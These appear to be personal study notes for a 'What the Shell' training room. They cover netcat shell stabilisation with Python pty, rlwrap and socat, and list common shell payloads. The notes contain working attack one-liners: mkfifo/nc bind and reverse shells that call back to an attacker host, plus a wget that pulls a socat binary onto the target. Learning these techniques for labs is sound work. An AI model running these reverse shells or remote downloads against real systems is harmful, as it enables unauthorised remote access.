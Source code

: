 # What the Shell 
## Netcat Shell Stabilisation  
### Technique 1: Python  
command:  
```
step 1: python -c 'import pty;pty.spawn("/bin/bash")'  

step 2: export TERM=xterm  

step 3: stty raw -echo; fg  
```
### Technique 2: rlwrap  
command: 
```bash
rlwrap nc -lvnp <port>  #background the shell with Ctrl + Z, then use stty raw -echo; fg to stabilise and re-enter the shell
```
### Technique 3: Socat  

command： 
```bash
sudo python3 -m http.server 80
wget <LOCAL-IP>/socat -O /tmp/socat  #download socat static compiled binary in target 

stty -a #note rows and columns in own terminal 

stty rows number   #set in shell 
stty cols numver   #set in shell 
```
### Socat Encrypted Shells 
### Common Shell Payloads 

a bit of vague***   

command:  
```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f   #a bit of hard, but don't worry. try ask chat-gpt

mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
[PayloadAllTheThing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

### practice and example  
command:  
```
remmina  #login to the windows server
```
